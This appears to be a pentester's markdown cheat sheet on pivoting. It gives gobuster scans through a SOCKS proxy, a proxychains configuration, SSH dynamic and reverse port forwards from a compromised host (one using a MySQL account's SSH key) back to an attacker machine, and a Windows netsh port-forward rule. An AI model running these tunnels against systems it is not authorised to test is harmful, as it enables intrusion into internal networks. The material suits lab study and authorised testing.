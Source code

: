 ```yaml
---
layout: post
title:  "networking - linux - proxychains - port forwarding"
date:   2022-01-01
categories: networking
---
```


### directory scan

```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://<my ip>:9050 -x .php,.txt
```

### Configure Proxychains

```bash

┌──(kali㉿Zeus)-[~]
└─$ cat /etc/proxychains.conf | grep 9050
socks5 <your VPN IP> 9050

```

### Proxychains through SSH connection dynamic port forwarding


```bash

ssh -D <your VPN IP>:9050 -i id_rsa root@10.10.10.10

```

## remote port forwarding two specific ports 22 and 3306 

```bash
ssh-keygen
ssh -f -N -R 1122:<targetip>:22 -R 13306:<targetip>:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@myip -i /tmp/.ssh/id_rsa
```

## dynamic remote port forwading

```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@myip
```

### Directory Scan through proxy


```bash

gobuster dir --proxy socks5://<your VPN IP>:9050 --url http://<ip> -w /usr/share/wordlists/dirb/common.txt

```


### Resources

```

https://abrictosecurity.com/how-to-use-proxychains/

```

### netsh windows port forward

 listening on 10.10.10.10 (listenaddress=10.10.10.10), port 4455 (listenport=4455) that will forward to the (connectaddress=10.10.10.20) on port 445 (connectport=445):

```bash
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.10.10.10 connectport=445 connectaddress=10.10.10.20
```



